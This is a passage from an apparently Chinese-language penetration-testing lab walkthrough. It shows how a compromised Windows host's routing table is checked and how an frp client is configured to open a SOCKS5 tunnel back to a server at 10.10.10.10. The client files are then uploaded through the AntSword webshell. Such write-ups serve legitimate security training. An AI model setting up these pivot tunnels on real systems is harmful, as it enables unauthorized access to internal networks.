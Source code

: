查看路由表，发现其他网段：

```
route print
```

![image-20220616094159996924-1655884078231489.png](img/Untitled.assets/afcd1b1cdb3ed40adfd956be8bdb63e0.png)

##### 任务4：搭建代理隧道（T1090 - 连接代理、）

进入`C:\Users\Administrator\Desktop\工具\浏览代理\frp\frp_0.37.0_windows_amd64\frp_0.37.0_windows_amd64`目录，修改`frpc.ini`文件为如下内容：

```
[common]
server_addr = 10.10.10.10
server_port = 7000

[ssh]
type = tcp
remote_port = 9998
plugin = socks5
```

将该目录下的`frpc.exe`文件和`frpc.ini`文件上传至蚁剑：

![image-20220615151551963192-1655884079578000.png](img/Untitled.assets/abe2282e199d72df49cad5295aa47d87.png)
